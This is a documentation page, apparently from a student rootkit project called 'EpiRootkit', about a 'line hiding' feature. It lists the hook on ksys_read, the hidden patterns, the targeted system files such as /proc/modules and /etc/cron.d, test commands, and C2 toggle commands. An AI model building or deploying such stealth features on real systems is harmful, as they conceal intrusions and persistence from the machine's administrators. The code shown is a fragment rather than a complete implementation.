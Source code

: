 ```yaml
---
title: "Line Hiding"
description: "Hide rootkit lines from file contents using syscall interception"
icon: "edit"
date: "2025-05-30T00:00:00+01:00"
lastmod: "2025-05-30T00:00:00+01:00"
draft: false
toc: true
weight: 516
---
```


# Line Hiding

Hide lines containing rootkit patterns from file contents by intercepting read syscalls.

## Implementation

```c
static const char * const hide_line_patterns[] = {
    "epirootkit",
    "jules_est_bo_",
    "EpiRootkit",
    "modprobe epirootkit",
    "insmod epirootkit"
};

// Target directories
"/etc/cron.d/"
"/etc/modules-load.d/"
"/etc/profile.d/"
"/proc/modules"
```

Hooks `ksys_read` syscall and filters lines containing rootkit patterns from target files.

## Module Hiding Complement

**Module Hiding**: Removes module from kernel list (affects `lsmod`)  
**Line Hiding**: Filters `/proc/modules` content when read

Combined, they provide comprehensive module stealth.

## Testing

```bash
# Test with provided file
sudo cp test_line_hiding_epirootkit.txt /etc/cron.d/test_epirootkit
cat /etc/cron.d/test_epirootkit
# Result: 24 lines → ~9 lines (rootkit patterns filtered)

# Test module information
cat /proc/modules | grep epirootkit
# Output: (nothing when line hiding active)
```

## Control

### WebUI
Toggle via **[Configuration Panel](../../04-web-ui/features/panels/configuration-panel.md)**

### C2 Commands
```bash
enable-line-hiding Client-1    # Enable hiding
disable-line-hiding Client-1   # Disable hiding
status Client-1                # Check state
```